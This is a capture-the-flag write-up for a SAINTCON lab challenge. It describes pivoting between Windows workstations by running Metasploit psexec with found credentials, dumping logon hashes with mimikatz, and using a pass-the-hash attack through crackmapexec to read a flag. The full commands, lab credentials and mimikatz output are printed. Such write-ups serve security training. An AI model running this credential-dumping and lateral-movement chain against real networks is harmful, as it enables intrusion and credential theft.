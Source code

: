 # WS02 - User

## Challenge Description

This Category of Challenge is presented by The Keep Community at SAINTCON.

Have you ever wanted to come to a conference, hack a machine, and walk away feeling like you own the world? Yeah, you can do that here.

If you get stuck or have any questions, don't hesitate to visit The Keep Community for help or guidance!

========================================

Please Visit the HACKERS CHALLENGE BOOTH to spinup an environment for you!

This environment will be good for 3 hours.

(due to monetary costs, we won't keep it running longer, but can spin you up a new environement when you need it)

========================================

Welcome to the Keep!

The you have been tasked with running a pentest on this client's network.

They have placed a file flag.txt on the desktop of all the important users in the network. This will allow them to see how far you have gone.

## Solution

After we got onto **WS01**, we needed to find a way to pivot to **WS02**. We
already `nmap` scanned the machine and didn't see anything interesting. The
credentials found previously also don't work.

Back to **WS01** to see what we can do. To make life easier since I have no idea
what I'm doing on Windows, I started to use metasploit. 

```bash
$ msfconsole

> use exploit/windows/smb/psexec
> set LHOST [YOUR LISTENING IP]
> set LPORT [YOUR LISTENING PORT]
> set RHOSTS [WS01 IP]
> set SMBPass goCougs123
> set SMBDomain HC
> set SMBUser darkon

> exploit
```

Cool! I'm connected. I have a terminal which I like. Let's now figure out what
is going on with this machine.

Running a `ps` you'll notice that there is another user signed in: `bashninja`. 

Oh... Let's see if `mimikatz` will work. Back in my normal terminal:

```bash
wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip
```

Now in meterpreter you can upload a file:

```
> upload [FILE PATH TO THE ZIP FILE]
```

Now in your RDP session you can unzip the folder. The reason I don't download it
within RDP is because we only had Internet Explorer... which was aweful to use
because it has the restricted mode turned on.

Back in meterpreter, I did the following:

```cmd
> shell

$ cd [TO YOUR DIRECTORY WHERE MIMIKATZ IS]
$ mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit" >> c:\tmp\mimikatz_output.txt
...
...
Authentication Id : 0 ; 237953 (00000000:0003a181)
Session           : RemoteInteractive from 2
User Name         : bashninja
Domain            : HC
Logon Server      : DC
Logon Time        : 10/26/2023 5:04:53 PM
SID               : S-1-5-21-636138077-4214483599-707087073-1115
	msv :
	[00000003] Primary
	* Username : bashninja
	* Domain   : HC
	* NTLM     : e68968cfbc5ab5ac534c1cd3715946dc
	* SHA1     : 36bc9b15a4415770785aa843e9f153379a09caf6
	* DPAPI    : 6058cb499b0f67bf51bd9418880f61bd
	tspkg :
	wdigest :
	* Username : bashninja
	* Domain   : HC
	* Password : (null)
	kerberos :
	* Username : bashninja
	* Domain   : HC.LOCAL
	* Password : (null)
	ssp :
	credman :
...
...
```

Oh cool! We have a NTLM hash. Now we can perform a _pass-the-hash_ attack.  You
can try `xfreerdp` and find that the user is not allowed to RDP into the
machine...

But let's try another way:

```bash
crackmapexec smb WS02/32 -u bashninja -d HC -H e68968cfbc5ab5ac534c1cd3715946dc -x dir
```

And we are returned with results! Awesome! We know where the flag will be so:

```bash
crackmapexec smb WS02/32 -u bashninja -d HC -H e68968cfbc5ab5ac534c1cd3715946dc -x type C:\\Users\\bashninja\\Desktop\\flag.txt
```

And we get a flag!


